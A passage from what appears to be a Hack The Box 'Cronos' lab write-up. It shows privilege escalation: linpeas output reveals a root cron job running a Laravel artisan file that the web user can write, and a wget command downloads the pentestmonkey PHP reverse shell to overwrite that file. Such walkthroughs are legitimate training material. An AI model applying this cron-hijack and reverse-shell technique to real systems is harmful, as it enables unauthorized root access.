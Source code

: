 
<br />
Run the mighty peas script and notice the file called /var/www/laravel/artisan file in the cron jobs section.

{% raw %}
```bash
www-data@cronos:/dev/shm$ ./linpeas.sh
./linpeas.sh

<snip>

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

<snip>
```
{% endraw %}

<br />
Check the permissions of this file.

{% raw %}
```bash
www-data@cronos:/var/www/laravel$ ls -la
ls -la
total 2012
drwxr-xr-x 13 www-data www-data    4096 May 10  2022 .
drwxr-xr-x  5 root     root        4096 May 10  2022 ..
-rw-r--r--  1 www-data www-data     572 Apr  9  2017 .env
drwxr-xr-x  8 www-data www-data    4096 May 10  2022 .git
-rw-r--r--  1 www-data www-data     111 Apr  9  2017 .gitattributes
-rw-r--r--  1 www-data www-data     117 Apr  9  2017 .gitignore
-rw-r--r--  1 www-data www-data     727 Apr  9  2017 CHANGELOG.md
drwxr-xr-x  6 www-data www-data    4096 May 10  2022 app
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan

<snip>
```
{% endraw %}

<br />
Download the pentestmonkey php reverse shell file.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$  wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O artisan
--2025-02-16 00:28:45--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 2606:50c0:8003::154, 2606:50c0:8001::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: ‘artisan’

artisan                                                    100%[========================================================================================================================================>]   5.36K  --.-KB/s    in 0s      
```